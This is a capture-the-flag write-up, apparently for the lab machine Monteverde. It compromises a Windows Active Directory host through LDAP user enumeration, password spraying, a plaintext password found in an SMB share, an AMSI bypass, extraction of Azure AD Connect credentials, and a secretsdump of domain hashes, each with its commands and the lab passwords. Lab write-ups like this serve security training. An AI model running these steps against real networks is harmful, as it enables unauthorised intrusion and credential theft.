## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt monteverde.htb
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-08 05:43:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### LDAP

We can see from the nmap scan that the domain is `megabank.local`. Add this to `/etc/hosts`. There doesn't seem to be any website either, nor are there any public SMB shares. Let's look into LDAP using `ldapsearch`.

We can make a userlist.

```bash
ldapsearch -x -H ldap://monteverde.htb -b "DC=megabank,DC=local" | grep -i userprincipalname | awk '{print $2}' | cut -d '@' -f 1 > userlist.txt
```

  

### Password Spraying

We can use `crackmapexec` to password spray using the user's username as their password since we don't have any other information to go off.

```bash
crackmapexec smb megabank.local -u userlist.txt -p userlist.txt --shares
```

  

```text
SABatchJobs:SABatchJobs
```

### SMB

There's a few non standard shares like `users$` and `azure_uploads`. The `azure_uploads` share is empty however the `user$` share has a few folders with user profiles.

```bash
smbclient -U 'megabank.local/SABatchJobs%SABatchJobs' //megabank.local/users\$
```

  

In `mhope`'s folder there's an `azure.xml` file.

  

If we look at the contents of the file we find a plaintext password.

  

```text
mhope:4n0therD4y@n0th3r$
```

## Shell as mhope

We can password spray once more to check the credentials are valid.

```bash
crackmapexec winrm megabank.local -u userlist.txt -p '4n0therD4y@n0th3r$'
```

  

```bash
evil-winrm -i megabank.local -u mhope -p '4n0therD4y@n0th3r$'
```

  

### User.txt

```powershell
cat user.txt;ipconfig
```

  

## Privilege Escalation

### Enumeration

There's a few things that tip us off that this is an Azure AD machine, one of those things being the `azure.xml` file. We can confirm this by checking groups.

```powershell
net groups /domain
```

  

If we check the groups for `mhope` we can see we are actually part of the `Azure Admins` group.

```powershell
net users mhope
```

  

### Bloodhound

We can also check this in bloodhound. First get an object dump and then upload it to bloodhound.

```bash
bloodhound-python -c All -u mhope -p '4n0therD4y@n0th3r$' -d megabank.local -dc megabank.local -ns 10.10.10.172
```

  

We can check `mhope`'s group membership using bloodhound as well.

  

### Azure AD

There is one thing that is a crucial part of Azure AD hybrid environment which is `Azure AD Sync`. This syncs information between the Azure AD cloud domain environment and the local one.

  

There's also an `ADSync` table in the database.

```powershell
sqlcmd -S localhost -Q "select name from sys.databases"
```

  

There's an awesome [article by Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/) that goes into depth on this attack and how it works. Within his post he does mention that the previous PoC doesn't work because of changes Microsoft have made to harden against this attack. He links another PoC that we can use which uses `xp_cmdshell`. Unfortunately we don't have `xp_cmdshell` enabled on the machine. We'll instead use the following PowerShell script.

```bash
wget https://raw.githubusercontent.com/glowbase/Get-MSOLCredentials.ps1/main/Get-MSOLCredentials.ps1
```

Upload the script.

```powershell
Bypass-4MSI
upload Get-MSOLCredentials.ps1
```

  

Now we can invoke it.

```powershell
.\Get-MSOLCredentials.ps1
```

  

```text
administrator:d0m@in4dminyeah!
```

## Shell as Administrator

```bash
evil-winrm -i megabank.local -u Administrator -p 'd0m@in4dminyeah!'
```

  

### Root.txt

```powershell
cat root.txt;ipconfig
```

  

## Post Exploitation

### Dumping Hashes

```bash
impacket-secretsdump 'monterverde/Administrator:d0m@in4dminyeah!@megabank.local' -outputfile hashes
```

  